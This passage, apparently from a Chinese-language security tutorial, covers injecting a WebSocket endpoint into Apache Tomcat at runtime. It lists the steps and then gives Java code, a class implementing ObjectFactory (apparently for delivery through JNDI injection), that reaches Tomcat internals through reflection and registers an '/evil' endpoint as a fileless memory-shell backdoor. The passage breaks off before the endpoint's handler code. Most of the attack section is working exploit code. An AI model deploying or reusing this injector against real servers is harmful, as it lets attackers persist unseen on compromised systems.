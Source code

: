 `UriTemplate`对URL进行重复检查，将path和`ServerEndpointConfig`放入`ExactPathMatch`

![image-20230205155423852](../.gitbook/assets/image-20230205155423852.png)

# 0x03 Inject WebSocket Endpoint

* 获取StandardContext
* 获取WsServerContainer
* 创建恶意ServerEndpointConfig
* 调用addEndpoint

```java
import org.apache.catalina.WebResourceRoot;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.websocket.server.WsServerContainer;

import javax.naming.Context;
import javax.naming.Name;
import javax.websocket.*;
import javax.websocket.server.ServerContainer;
import javax.websocket.server.ServerEndpoint;
import javax.websocket.server.ServerEndpointConfig;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Hashtable;

@ServerEndpoint("/evil")
public class MySocket implements javax.naming.spi.ObjectFactory{
    static{
        try {
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            Class clazz = Class.forName("org.apache.catalina.loader.WebappClassLoaderBase");
            Field field = clazz.getDeclaredField("resources");
            field.setAccessible(true);
            StandardContext standardContext =  (StandardContext) ((WebResourceRoot) field.get(webappClassLoaderBase)).getContext();
            ServerEndpointConfig build = ServerEndpointConfig.Builder.create(MySocket.class, "/evil").build();
            WsServerContainer container = (WsServerContainer) standardContext.getServletContext().getAttribute(ServerContainer.class.getName());
            System.out.println("Inject WebSocket Success!");
            try {
                container.addEndpoint(build);
            } catch (DeploymentException e) {
                throw new RuntimeException(e);
            }
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        }
    }

```